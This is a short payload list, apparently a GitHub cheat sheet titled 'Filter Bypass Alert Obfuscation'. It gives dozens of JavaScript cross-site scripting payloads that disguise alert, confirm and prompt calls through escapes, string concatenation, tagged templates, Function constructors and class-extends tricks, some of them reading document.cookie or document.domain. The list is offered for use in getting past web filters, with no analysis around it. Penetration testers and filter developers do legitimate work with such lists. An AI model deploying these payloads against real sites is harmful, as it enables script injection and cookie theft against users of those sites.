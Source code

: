 ### Filter Bypass Alert Obfuscation
 ```
(alert)(1)
a=alert,a(1)
[1].find(alert)
top[“al”+”ert”](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
top[‘al\145rt’](1)
top[‘al\x65rt’](1)
top[8680439..toString(30)](1)
alert.?()

confirm()
confirm``
(confirm``)
{confirm``}
[confirm``]
(((confirm)))``
co\u006efirm()
confirm?.()
new class extends confirm``{}
[8].find(confirm)
[8].map(confirm)
[8].some(confirm)
[8].every(confirm)
[8].filter(confirm)
[8].findIndex(confirm)

self[`aler`%2b`t`]`1`
'new Function`al\ert\`1\``'
'new Function`pro\mpt\`1\``'
prompt?.()
alert(document['cookie']) 
with(document)alert(cookie) 
eval('ale'+'rt(1)')window['alert'](0)
parent['alert'](1)
self['alert'](2)
this['alert'](4)
frames['alert'](5)
content['alert'](6)
[12].forEach(alert);
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;

alert.call(null, document.domain);
[document.domain].forEach(alert);
alert.apply(null, [document.domain]);
alert.bind()(document.domain);
alert(this['document']['domain']);
(new Map()).set(1, document.domain).forEach(alert);

[class extends[alert````]{}]
```${``[class extends[alert``]{}]}```
[class extends[alert````]{}]
throw new class extends Function{}('alert(1)')``
x=new class extends Function{}('alert(1)'); x=new x;
new class extends alert(1){}
new class extends class extends class extends class extends alert(1){}{}{}{}
    

 ```